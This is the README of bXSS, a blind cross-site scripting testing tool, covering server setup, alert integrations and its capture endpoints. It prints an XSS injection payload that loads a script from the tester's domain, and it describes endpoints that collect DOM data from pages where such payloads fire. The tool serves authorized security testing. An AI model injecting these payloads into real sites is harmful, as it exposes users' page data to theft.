 # bXSS

bXSS is a Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://ardern.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS supports the following:

* [Intrusive Levels](./Images/intrusion.jpg)
* [Email](./Images/email.jpg)
    * [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
* [Twilio](./Images/sms.jpg)
* [Slack](./Images/slack.jpg)
* [Webex Teams](./Images/cisco.jpg)
* [Discord](./Images/discord.jpg)
* [Twitter](./Images/twitter.jpg)
* [Payload Generation](./Images/payloads.jpg)
* [Save locally](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* Node.js and Express
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
* A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
* A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)
* A [Twitter Developer Account](https://developer.twitter.com/en/apply/user) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
     * Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b> 
        * config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
        * config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']     
    * Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b> 
        * Steps to create a bot:
            * Visit https://discordapp.com/developers/applications/
            * Create a new application (e.g bXSSForCompany)
            * Make a note of your CLIENT ID
            * Select 'Bot' 
                * Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
            * Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
            * Select the server you want your bot to join and authorize
            * Update the following values below for the bot to post to the 'text channel' e.g ('general')
        * config.discord.token = 'your bot token'
        * config.discord.channel = 'channel you want it to join, e.g general'    
    * Twitter  <b>(Optional, if you don't want to use Twitter just delete all Twitter references from the config)</b>  
        *   config.twitter.consumer_key = API Key
        * config.twitter.consumer_secret = API Secret Key
        * config.twitter.access_token_key = Application Access Token
        * config.twitter.access_token_secret =  Application Access Token Secret
        * Permissions (Write)
        * config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>    
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps (Optional)

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has HTTP queries to utilize:

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* GET - /mH (captures HTTP interactions)
* Payloads - /payloads (Gives payloads you can use for testing blind xss)
* Everything else - Loads alert(1)


# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
